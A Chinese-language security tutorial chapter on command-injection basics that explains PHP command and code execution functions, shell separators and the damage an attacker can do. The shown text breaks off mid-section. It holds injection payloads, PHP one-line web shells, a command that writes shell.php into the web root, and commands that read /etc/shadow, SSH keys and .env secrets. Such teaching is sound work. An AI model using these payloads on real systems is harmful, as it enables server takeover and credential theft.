






# 第26章 命令执行漏洞基础

> **难度等级：🟡 中等级**
>
> **预计学习时间：120分钟**
>
> **本章看点：什么是命令执行漏洞、命令执行与代码执行的区别、PHP常见命令执行函数、代码执行函数、管道符与连接符、Windows与Linux命令对比、漏洞产生原因与危害**
>
> ::: tip 说明
> 恭喜你进入进阶篇！
>
> 如果说SQL注入是"拖库之王"，
> XSS是"客户端之王"，
> 文件上传是"拿Shell最快的漏洞"，
>
> 那命令执行漏洞就是"最直接的漏洞"——
> 直接让你在服务器上执行系统命令。
>
> 想象一下，
> 你能在对方服务器上随便敲命令，
> 想看什么看什么，
> 想干什么干什么，
> 是不是很刺激？
>
> 这一章，
> 我们就从最基础的开始，
> 什么是命令执行漏洞、
> 它和代码执行有什么区别、
> 常见的危险函数有哪些、
> 以及命令执行能做什么。
>
> 准备好了吗？
> 让我们开始！
> :::

---

## 📖 本章概述

::: tip 写在前面
很多新手一听到"命令执行漏洞"，
就觉得很简单：
"不就是执行个系统命令嘛！"

其实没那么简单。
命令执行漏洞的形式多种多样，
有直接执行命令的，
有执行代码的，
有动态函数调用的，
还有正则表达式导致的...

而且真实环境中，
大部分系统都会做各种过滤，
比如过滤关键字、
过滤特殊符号、
禁用危险函数...

但是，
只要代码中存在调用系统命令的地方，
且用户输入可控，
就有可能存在命令执行漏洞。

命令执行的绕过技巧也非常多，
从简单到复杂，
各种姿势都有。

这一章我们先讲基础：
- 什么是命令执行漏洞
- 命令执行 vs 代码执行
- 常见的命令执行函数
- 代码执行函数
- 管道符、连接符、重定向符
- Windows命令 vs Linux命令
- 命令执行漏洞的危害
- 漏洞产生的原因

下一章再讲更高级的绕过与利用技巧。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 知道什么是命令执行漏洞
- [x] 理解命令执行和代码执行的区别
- [x] 掌握PHP中常见的命令执行函数
- [x] 掌握PHP中常见的代码执行函数
- [x] 理解管道符、连接符、重定向符的作用
- [x] 知道Windows和Linux常用命令的区别
- [x] 理解命令执行漏洞的危害
- [x] 理解命令执行漏洞产生的原因
- [x] 能识别简单的命令执行漏洞
- [x] 能在DVWA上练习命令执行

---

## 🔍 什么是命令执行漏洞？

### 0.1 通俗理解：命令执行到底是什么？

在学具体的技术之前，先用一个生活化的场景帮你建立直观感受。

**场景：听话的机器人管家**

想象你家有一个智能机器人管家。你说"开灯"，它开灯；你说"关窗"，它关窗。这很正常，对吧？

但有一天，你对它说：**"开灯；顺便把家门密码发给我"**

如果机器人没有检查你这句话是不是"正常指令"，它就会：
1. 先执行"开灯" ✓
2. 再执行"把家门密码发给我" ← **这就是命令执行漏洞！**

**用代码翻译这个场景：**

```php
// 开发者写的代码 - 预期用户只输入房间名
$room = $_GET['room'];
system("turn_on_light " . $room);
```

正常输入：`?room=kitchen` → 执行 `turn_on_light kitchen` ✓

恶意输入：`?room=kitchen; send_password_to_attacker`
→ 执行 `turn_on_light kitchen; send_password_to_attacker` ← 两条命令！

**再举个代码执行的例子：**

你写了一个"中译英"翻译程序：
```python
translate("你好" + user_input)  # 期望用户输入"世界"
```
正常情况下：`translate("你好世界")` → "Hello World"

但用户输入了：`"); delete_all_files(); ("`
程序变成：`translate("你好"); delete_all_files(); ("")`

翻译程序不但翻译了，还把文件全删了！

> **核心原理一句话：**
> 程序以为用户的输入是"数据"，
> 但用户的输入实际上变成了"命令"的一部分。
>
> 所有命令执行漏洞的绕过，本质上都是在想办法
> 让"数据"伪装成"命令"被执行。

### 1.1 概念

**命令执行漏洞（Command Injection），
就是应用程序在调用系统命令的时候，
没有对用户输入做严格的过滤和检查，
导致攻击者可以通过拼接恶意命令，
让服务器执行任意的系统命令。**

说白了就是：
> 开发者想让用户输入"IP地址"来ping一下，
> 结果用户输入了"127.0.0.1; ls"，
> 服务器不仅ping了127.0.0.1，
> 还执行了ls命令，
> 把当前目录的文件都列出来了。

这就是命令注入——
在正常的命令后面，
"注入"了额外的命令。

::: warning 注意
命令执行漏洞和代码执行漏洞是有区别的，
虽然它们都能让攻击者执行恶意代码，
但原理和利用方式不太一样。
我们后面会详细对比。
:::

**图26-1 命令执行漏洞原理示意图**



### 1.2 一个最简单的例子

让我们看一个最经典的命令执行漏洞场景：
**ping功能**。

很多网站都有"ping检测"功能，
让用户输入一个IP地址，
服务器帮你ping一下，
看看网络通不通。

后端PHP代码可能长这样：

```php
<?php
// 获取用户输入的IP地址
$ip = $_GET['ip'];

// 调用系统的ping命令
system("ping -c 4 " . $ip);
?>
```

正常情况下，
用户输入 `127.0.0.1`，
服务器执行的命令是：
```bash
ping -c 4 127.0.0.1
```
这没问题。

但是如果攻击者输入：
```
127.0.0.1; whoami
```

那服务器执行的命令就变成了：
```bash
ping -c 4 127.0.0.1; whoami
```

看到了吗？
`;` 分号在Linux中是命令分隔符，
意思是"前面的命令执行完，再执行后面的命令"。

于是服务器不仅ping了127.0.0.1，
还执行了 `whoami` 命令，
把当前用户给输出了！

这就是最基础的命令注入。

**图26-2 ping功能命令注入时序图**

```mermaid
sequenceDiagram
    participant Attacker as 攻击者
    participant Web as Web应用
    participant Shell as 操作系统Shell

    Attacker->>Web: GET ping.php?ip=127.0.0.1; whoami
    Web->>Web: 拼接命令 ping -c 4 127.0.0.1; whoami
    Web->>Shell: system("ping -c 4 127.0.0.1; whoami")
    Shell->>Shell: 执行 ping -c 4 127.0.0.1
    Shell-->>Web: 返回 ping 结果
    Shell->>Shell: 分号; 触发执行 whoami
    Shell-->>Web: 返回 whoami 结果
    Web-->>Attacker: 页面回显 ping结果 + whoami结果
```

### 1.3 命令执行漏洞的分类

命令执行漏洞大致可以分为两类：

| 类型 | 说明 | 典型函数 |
|------|------|----------|
| **系统命令执行** | 直接调用操作系统命令 | system()、exec()、shell_exec()、passthru() |
| **代码执行** | 执行脚本代码（如PHP代码） | eval()、assert()、call_user_func() |

很多时候大家会把这两类都统称为"命令执行"，
但严格来说它们是有区别的。
我们接下来会详细讲。

---

## 🔄 命令执行 vs 代码执行，有啥区别？

很多新手搞不清楚
"命令执行"和"代码执行"的区别，
我们来详细对比一下。

### 2.1 命令执行（Command Execution）

**命令执行，就是执行操作系统的命令。**
比如Linux下的 `ls`、`cat`、`whoami`，
Windows下的 `dir`、`type`、`whoami`。

这些命令是操作系统层面的，
和Web应用用什么语言写的没关系。

**典型的PHP命令执行函数：**
- `system()`
- `exec()`
- `shell_exec()`
- `passthru()`
- `pcntl_exec()`
- `popen()`
- `proc_open()`

**特点：**
- 执行的是系统命令（bash/cmd命令）
- 权限取决于Web服务的运行权限
- 可以直接操作文件、网络、进程等
- 通常危害更大，因为直接控制系统层面

### 2.2 代码执行（Code Execution）

**代码执行，就是执行Web应用本身的脚本代码。**
比如PHP代码、Python代码、Java代码等。

这些代码是在应用层面执行的，
虽然最终也能调用系统命令，
但需要通过语言本身的函数。

**典型的PHP代码执行函数：**
- `eval()`
- `assert()`
- `call_user_func()`
- `call_user_func_array()`
- `create_function()`
- `preg_replace()` 的 `/e` 修饰符
- 动态函数调用：`$func()`
- 动态类方法调用：`$obj->$method()`

**特点：**
- 执行的是脚本语言代码（如PHP代码）
- 受脚本语言配置限制（如disable_functions）
- 可以通过语言函数间接执行系统命令
- 更灵活，因为可以写复杂的逻辑

### 2.3 一张图看懂区别

让我们用一个类比来理解：

| 类比 | 命令执行 | 代码执行 |
|------|----------|----------|
| **相当于** | 直接在服务器上敲命令行 | 在服务器上写一个PHP脚本然后运行 |
| **执行层级** | 操作系统层 | 应用脚本层 |
| **例子** | `system('whoami')` | `eval('echo 1+1;')` |
| **限制** | 受系统权限限制 | 受PHP配置限制（disable_functions等） |
| **危害** | 通常更大、更直接 | 取决于能否绕过限制执行系统命令 |

::: tip 小提示
在实际的红队行动中，
我们通常的目标是：
> **代码执行 → 命令执行 → 提权 → 横向移动**

如果能直接命令执行那最好，
如果只有代码执行，
就想办法通过代码执行来调用系统命令。
:::

**图26-3 命令执行与代码执行对比与升级路径图**



---

## ⚡ 常见的命令执行函数（PHP）

PHP中有很多可以执行系统命令的函数，
我们一个一个来看。

**图26-4 PHP命令执行函数分类图**



### 3.1 system() 函数

`system()` 函数是最常用的命令执行函数，
它会执行命令并**直接输出结果**。

**语法：**
```php
system(string $command, int &$return_var = null): string|false
```

**例子：**
```php
<?php
// 执行whoami命令并直接输出
system('whoami');

// 带返回值
system('ls -la', $return_val);
echo "返回值：" . $return_val;
?>
```

**特点：**
- ✅ 直接输出命令执行结果
- ✅ 有返回值（命令的最后一行）
- ✅ 简单易用，最常见
- ❌ 输出结果会直接显示在页面上

### 3.2 exec() 函数

`exec()` 函数执行命令，
但**不会直接输出结果**，
而是把结果保存在数组中。

**语法：**
```php
exec(string $command, array &$output = null, int &$result_code = null): string|false
```

**例子：**
```php
<?php
// 执行命令，结果保存在$output数组中
exec('ls -la', $output, $return_val);

// 输出结果
print_r($output);
echo "返回值：" . $return_val;
?>
```

**特点：**
- ❌ 不直接输出结果
- ✅ 结果保存在数组中
- ✅ 有返回值
- ⚠️ 只返回命令输出的最后一行（作为函数返回值）

### 3.3 shell_exec() 函数

`shell_exec()` 函数通过shell执行命令，
并**以字符串形式返回全部输出**。

**语法：**
```php
shell_exec(string $command): string|false|null
```

**例子：**
```php
<?php
// 执行命令，返回完整输出
$result = shell_exec('ls -la');
echo $result;
?>
```

**特点：**
- ✅ 返回完整的输出（字符串形式）
- ❌ 没有返回状态码
- ✅ 使用反引号运算符 `` ` `` 也是调用这个函数

::: tip 小知识
PHP中的反引号运算符：
```php
$output = `ls -la`;
```
这和 `shell_exec('ls -la')` 是等价的！
:::

### 3.4 passthru() 函数

`passthru()` 函数执行命令，
并**直接输出原始输出**（二进制数据也可以）。

**语法：**
```php
passthru(string $command, int &$result_code = null): ?bool
```

**例子：**
```php
<?php
// 执行命令，直接输出
passthru('ls -la');

// 带返回值
passthru('ls -la', $return_val);
echo "返回值：" . $return_val;
?>
```

**特点：**
- ✅ 直接输出结果
- ✅ 支持二进制输出（比如图片）
- ✅ 有返回状态码
- ⚠️ 没有返回值（函数本身不返回结果字符串）

### 3.5 其他命令执行函数

除了上面四个最常用的，
还有一些不那么常见但也能执行命令的函数：

#### pcntl_exec()
```php
<?php
// 在当前进程空间执行指定程序
pcntl_exec('/bin/ls', ['-la']);
?>
```
注意：需要pcntl扩展，通常CLI模式下才有。

#### popen()
```php
<?php
// 打开进程文件指针
$handle = popen('ls -la', 'r');
echo fread($handle, 2048);
pclose($handle);
?>
```

#### proc_open()
```php
<?php
// 更灵活的进程控制
$descriptorspec = [
    0 => ["pipe", "r"],  // stdin
    1 => ["pipe", "w"],  // stdout
    2 => ["pipe", "w"]   // stderr
];

$process = proc_open('ls -la', $descriptorspec, $pipes);
echo stream_get_contents($pipes[1]);
proc_close($process);
?>
```

### 3.6 命令执行函数对比表

| 函数 | 直接输出 | 返回内容 | 返回状态码 | 备注 |
|------|----------|----------|------------|------|
| `system()` | ✅ 是 | 最后一行 | ✅ 是 | 最常用 |
| `exec()` | ❌ 否 | 最后一行 | ✅ 是 | 结果在数组中 |
| `shell_exec()` | ❌ 否 | 全部输出 | ❌ 否 | 反引号等价 |
| `passthru()` | ✅ 是 | 无 | ✅ 是 | 支持二进制 |
| `popen()` | ❌ 否 | 文件指针 | ❌ 否 | 需要fread读取 |
| `proc_open()` | ❌ 否 | 文件指针 | ✅ 是 | 最灵活 |

---

## 💻 代码执行函数

讲完了命令执行函数，
我们再来讲讲代码执行函数。
这些函数虽然不直接执行系统命令，
但能执行PHP代码，
而PHP代码又可以调用系统命令，
所以危害同样很大。

**图26-5 PHP代码执行函数分类图**



### 4.1 eval() 函数

`eval()` 是最经典的代码执行函数，
它会把字符串当作PHP代码来执行。

**语法：**
```php
eval(string $code): mixed
```

**例子：**
```php
<?php
// 执行PHP代码
$code = 'echo "Hello, 红队!";';
eval($code);  // 输出：Hello, 红队!

// 执行系统命令
eval('system("whoami");');
?>
```

**特点：**
- ✅ 可以执行任意PHP代码
- ✅ 非常灵活，想写什么逻辑都可以
- ⚠️ 参数必须是合法的PHP代码（要有分号）
- ⚠️ 很多WAF会检测eval关键字

::: warning 重要
一句话木马的核心就是eval！
还记得吗？
```php
<?php @eval($_POST['cmd']); ?>
```
这就是最经典的PHP一句话木马。
用户通过POST参数传入PHP代码，
eval就会执行它。
:::

### 4.2 assert() 函数

`assert()` 函数本来是用来做断言的（检查一个断言是否为false），
但它也会执行字符串形式的断言代码，
所以也能用来执行代码。

**语法：**
```php
assert(mixed $assertion, string $description = ?): bool
```

**例子：**
```php
<?php
// 执行代码（PHP 7.x版本）
assert('system("whoami")');

// 一句话木马
@assert($_POST['cmd']);
?>
```

**特点：**
- ✅ 也能执行PHP代码
- ✅ 不需要分号结尾（因为是断言表达式）
- ⚠️ PHP 7.2之后开始废弃
- ⚠️ PHP 8.0之后默认不再执行字符串断言

::: tip 小知识
在PHP 5.x和7.x版本中，
`assert()` 是非常好用的代码执行函数，
因为它不像 `eval()` 那么显眼，
很多WAF可能漏过。
但在PHP 8.0之后，
assert默认不再执行字符串了，
用得就少了。
:::

### 4.3 call_user_func() 函数

`call_user_func()` 函数用来**动态调用一个函数**，
第一个参数是函数名，后面是参数。

**语法：**
```php
call_user_func(callable $callback, mixed ...$args): mixed
```

**例子：**
```php
<?php
// 调用system函数执行命令
call_user_func('system', 'whoami');

// 调用eval执行代码
call_user_func('eval', 'echo "hello";');

// 一句话木马
@call_user_func($_GET['func'], $_GET['cmd']);
// ?func=system&cmd=whoami
?>
```

**特点：**
- ✅ 动态函数调用，很灵活
- ✅ 可以调用各种PHP函数
- ⚠️ 需要知道函数名
- ⚠️ 可以用来绕过对函数名的检测

### 4.4 call_user_func_array() 函数

和 `call_user_func()` 类似，
但参数是通过数组传递的。

**语法：**
```php
call_user_func_array(callable $callback, array $args): mixed
```

**例子：**
```php
<?php
// 调用system函数
call_user_func_array('system', ['whoami']);

// 一句话木马
@call_user_func_array($_GET['func'], [$_GET['cmd']]);
?>
```

### 4.5 动态函数调用

PHP支持一个很灵活的特性：
**变量函数**，也就是 `$func()`。

如果一个变量名后面跟了括号，
PHP就会去找和变量值同名的函数，
然后尝试执行它。

**例子：**
```php
<?php
// 动态函数调用
$func = 'system';
$func('whoami');  // 等价于 system('whoami')

// 一句话木马
$_GET['func']($_GET['cmd']);
// ?func=system&cmd=whoami
?>
```

**特点：**
- ✅ 非常隐蔽，看起来不像代码执行
- ✅ 没有显式的危险函数名
- ⚠️ 需要两个参数都可控
- ⚠️ 很多新手代码审计会漏掉

### 4.6 preg_replace() /e 修饰符漏洞

`preg_replace()` 函数本来是用来做正则替换的，
但如果用了 `/e` 修饰符，
替换的字符串会被当作PHP代码执行！

**语法：**
```php
preg_replace(mixed $pattern, mixed $replacement, mixed $subject): mixed
```

**例子：**
```php
<?php
// /e 修饰符会执行替换结果作为PHP代码
$str = 'test';
preg_replace('/test/e', 'system("whoami")', $str);

// 如果用户可控pattern或subject
// 就可能导致代码执行
@preg_replace('/' . $_GET['pattern'] . '/e', '\\1', $_GET['subject']);
?>
```

**特点：**
- ⚠️ 仅在PHP 5.x和PHP 7.0中有效
- ⚠️ PHP 7.1之后废弃了/e修饰符
- ✅ 比较隐蔽，容易出现在老代码中

::: tip 历史背景
`preg_replace()` 的 `/e` 修饰符在PHP中是一个"历史遗留问题"，
它本来是为了方便在替换时使用表达式，
但结果导致了大量的代码执行漏洞。
PHP官方也意识到了这个问题，
在PHP 7.1中废弃了/e修饰符，
推荐用 `preg_replace_callback()` 代替。
:::

### 4.7 create_function() 函数

`create_function()` 函数用来创建匿名函数，
参数是函数参数和函数体字符串。
它内部其实也是用eval实现的，
所以也能执行代码。

**例子：**
```php
<?php
// 创建函数并执行
$func = create_function('', 'system("whoami");');
$func();

// 直接创建并执行
create_function('', $_GET['cmd'])();
?>
```

**特点：**
- ⚠️ PHP 7.2之后废弃
- ⚠️ PHP 8.0之后移除
- ✅ 在老代码中可能遇到

### 4.8 代码执行函数对比表

| 函数 | 类型 | PHP版本 | 隐蔽性 | 备注 |
|------|------|---------|--------|------|
| `eval()` | 代码执行 | 全版本 | ⭐⭐ | 最经典，最常用 |
| `assert()` | 代码执行 | 5.x, 7.x | ⭐⭐⭐ | PHP8后失效 |
| `call_user_func()` | 动态调用 | 全版本 | ⭐⭐⭐ | 需要函数名可控 |
| `$func()` | 动态函数 | 全版本 | ⭐⭐⭐⭐ | 最隐蔽 |
| `preg_replace /e` | 正则 | 5.x, 7.0 | ⭐⭐⭐⭐ | 老代码常见 |
| `create_function()` | 匿名函数 | 5.x, 7.x | ⭐⭐⭐ | 已废弃 |

---

## 🔗 管道符、连接符、重定向符

要玩转命令执行，
你必须了解一些特殊符号的作用。
这些符号是命令注入的基础，
也是绕过过滤的关键。

> **通俗理解：这些符号就是"命令的交通规则"**
>
> 你可以把命令行想象成一条马路，这些符号就是马路上的交通标志：
>
> - **`;`（分号）= 红绿灯**：不管前面车过没过，绿灯亮了你就走。
>   `ping 127.0.0.1; whoami` → 先ping完，然后执行whoami。无条件顺序执行。
>
> - **`&&`（逻辑与）= 限高架**：前面车能通过（成功），我的车才能过。
>   `cd /tmp && cat secret.txt` → 只有cd成功了，才会cat。失败就停止。
>
> - **`||`（逻辑或）= 备选路线**：前面的路走不通（失败），就走这条路。
>   `cat secret.txt || echo "没有这个文件"` → 如果cat失败了，才执行echo。
>
> - **`|`（管道符）= 传送带**：前面命令输出的东西，直接传给后面的命令。
>   `cat /etc/passwd | grep root` → cat输出密码文件内容，传给grep去搜索"root"。
>
> **在命令注入中，`;` 和 `|` 是最常用的**，
> 因为它们简单直接——不管前面啥结果，后面的命令都要执行。

### 5.1 命令连接符

命令连接符可以让你在一行中执行多个命令。

| 符号 | 名称 | 作用 | 例子 |
|------|------|------|------|
| `;` | 分号 | 前面的命令执行完，执行后面的 | `cmd1; cmd2` |
| `&&` | 逻辑与 | 前面的命令执行成功，才执行后面的 | `cmd1 && cmd2` |
| `\|\|` | 逻辑或 | 前面的命令执行失败，才执行后面的 | `cmd1 \|\| cmd2` |
| `\|` | 管道符 | 把前面命令的输出，作为后面命令的输入 | `cmd1 \| cmd2` |

**详细说明：**

#### 1. 分号 `;`
最直接的命令分隔符。
不管前面的命令成功还是失败，
都会执行后面的命令。

```bash
echo "hello"; whoami; pwd
```
三条命令依次执行，互不影响。

#### 2. 逻辑与 `&&`
只有前面的命令执行成功（返回码为0），
才会执行后面的命令。

```bash
cd /tmp && ls
```
只有cd成功了，才会执行ls。

::: tip 命令注入中的应用
在命令注入中，
如果前面的命令可能失败，
就用 `;` 比较保险。
如果想用更"正常"的方式，
可以用 `&&`。
:::

#### 3. 逻辑或 `||`
只有前面的命令执行失败（返回码不为0），
才会执行后面的命令。

```bash
cd /notexist || echo "目录不存在"
```
cd失败了，所以执行echo。

#### 4. 管道符 `|`
把前面命令的标准输出，
作为后面命令的标准输入。

```bash
cat /etc/passwd | grep root
```
cat的输出传给grep处理。

### 5.2 重定向符

重定向符用来控制命令的输入输出流向。

| 符号 | 名称 | 作用 | 例子 |
|------|------|------|------|
| `>` | 输出重定向（覆盖） | 把输出写入文件，覆盖原有内容 | `cmd > file` |
| `>>` | 输出重定向（追加） | 把输出追加到文件末尾 | `cmd >> file` |
| `<` | 输入重定向 | 从文件读取内容作为输入 | `cmd < file` |
| `2>` | 错误重定向 | 把错误输出写入文件 | `cmd 2> error.log` |
| `2>&1` | 错误重定向到标准输出 | 把错误输出也转到标准输出 | `cmd > file 2>&1` |

**常用组合：**

```bash
# 把命令结果写入文件
whoami > /tmp/result.txt

# 追加写入
ls -la >> /tmp/result.txt

# 不输出任何内容（黑洞）
cmd > /dev/null 2>&1

# 从文件读取内容执行
bash < /tmp/script.sh
```

### 5.3 其他有用的符号

| 符号 | 作用 | 例子 |
|------|------|------|
| `$()` | 命令替换 | `echo $(whoami)` |
| `` ` `` | 反引号（命令替换） | `` echo `whoami` `` |
| `()` | 子shell执行 | `(cmd1; cmd2)` |
| `{}` | 命令组合 | `{ cmd1; cmd2; }` |
| `&` | 后台执行 | `cmd &` |

**命令替换很重要！**
`$()` 和反引号 `` ` `` 都可以执行命令并返回结果，
在很多绕过场景中非常有用。

```bash
# 两种写法等价
echo $(whoami)
echo `whoami`
```

---

## 🪟 Windows命令 vs 🐧 Linux命令

命令执行漏洞的目标服务器
可能是Windows也可能是Linux，
它们的命令不一样，
我们需要都了解。

### 6.1 常用命令对比

| 功能 | Linux命令 | Windows命令 |
|------|-----------|-------------|
| 查看当前目录 | `pwd` | `cd` 或 `echo %cd%` |
| 列出文件 | `ls` / `ls -la` | `dir` |
| 查看文件内容 | `cat file` | `type file` |
| 查看当前用户 | `whoami` | `whoami` |
| 查看系统信息 | `uname -a` | `systeminfo` |
| 查看网络配置 | `ifconfig` / `ip a` | `ipconfig` |
| 查看监听端口 | `netstat -anp` | `netstat -ano` |
| 查看进程 | `ps aux` | `tasklist` |
| 杀死进程 | `kill PID` | `taskkill /PID PID` |
| 创建用户 | `useradd test` | `net user test 123 /add` |
| 添加到管理员组 | `usermod -aG sudo test` | `net localgroup administrators test /add` |
| 查看用户列表 | `cat /etc/passwd` | `net user` |
| 切换目录 | `cd /path` | `cd \path` |
| 创建目录 | `mkdir dir` | `mkdir dir` |
| 删除文件 | `rm file` | `del file` |
| 复制文件 | `cp src dst` | `copy src dst` |
| 移动文件 | `mv src dst` | `move src dst` |
| ping命令 | `ping -c 4 ip` | `ping -n 4 ip` |

### 6.2 命令分隔符的区别

| 符号 | Linux | Windows | 说明 |
|------|-------|---------|------|
| `;` | ✅ 支持 | ❌ 不支持 | 分号在Windows cmd中不是命令分隔符 |
| `&&` | ✅ 支持 | ✅ 支持 | 逻辑与，两边都支持 |
| `\|\|` | ✅ 支持 | ✅ 支持 | 逻辑或，两边都支持 |
| `\|` | ✅ 支持 | ✅ 支持 | 管道符，两边都支持 |
| `&` | ✅ 后台执行 | ✅ 命令分隔符 | Windows中&也是命令分隔符 |

::: tip 重要
在Windows的cmd中，
`&` 是命令分隔符，
作用和Linux的 `;` 类似！

```cmd
echo hello & whoami
```
这在Windows中是可以的。

另外Windows中还有 `|` 管道符也可以用。
:::

### 6.3 怎么判断目标是Windows还是Linux？

在命令注入时，
我们通常先判断一下目标系统，
再选择用什么命令。

**判断方法：**
1. **看回显**：执行 `uname -a`，有回显就是Linux
2. **看目录分隔符**：路径是 `/` 还是 `\`
3. **ping命令差异**：Linux用 `-c`，Windows用 `-n`
4. **看环境变量**：Linux有 `$PATH`，Windows有 `%PATH%`
5. **看WEB Server**：IIS通常是Windows，Apache/Nginx通常是Linux

**快速判断payload：**
```bash
# 不管什么系统都能执行的"万能"命令
# 用 || 或 && 组合
uname -a || whoami
```

---

## ⚠️ 命令执行漏洞的危害

命令执行漏洞的危害非常大，
可以说是Web漏洞中危害最大的之一。
为什么这么说呢？
因为一旦有了命令执行，
你就几乎相当于有了服务器的控制权（当然还要看权限）。

**图26-6 命令执行漏洞危害升级路径图**



### 7.1 能做什么？

如果存在命令执行漏洞，
攻击者可以：

| 危害等级 | 能做的事 | 说明 |
|----------|----------|------|
| 🟡 中危 | **信息收集** | 查看系统信息、用户、网络、进程等 |
| 🟠 高危 | **文件操作** | 读取敏感文件、修改配置、上传下载文件 |
| 🟠 高危 | **WebShell** | 写入一句话木马，获得持久化控制 |
| 🔴 严重 | **反弹Shell** | 获得交互式Shell，进一步提权 |
| 🔴 严重 | **内网渗透** | 攻击内网其他机器，横向移动 |
| 🔴 严重 | **提权** | 利用内核漏洞等提升到root/system权限 |

### 7.2 具体危害场景

让我们具体看看能做什么：

#### 1. 信息收集
```bash
# 系统信息
uname -a
cat /etc/issue
cat /proc/version

# 用户信息
whoami
id
cat /etc/passwd
cat /etc/shadow  # 如果有权限

# 网络信息
ifconfig
ip a
netstat -anp
arp -a

# 进程信息
ps aux
top

# 环境变量
env
printenv
```

#### 2. 读取敏感文件
```bash
# Web应用配置文件
cat /var/www/html/config.php
cat /var/www/html/.env

# 系统配置
cat /etc/passwd
cat /etc/shadow

# SSH密钥
cat ~/.ssh/id_rsa
cat ~/.ssh/authorized_keys

# 日志文件
cat /var/log/apache2/access.log
cat /var/log/auth.log
```

#### 3. 写WebShell
```bash
# 直接写一句话木马
echo '<?php @eval($_POST["cmd"]);?>' > /var/www/html/shell.php

# 用base64编码写（绕过特殊字符过滤）
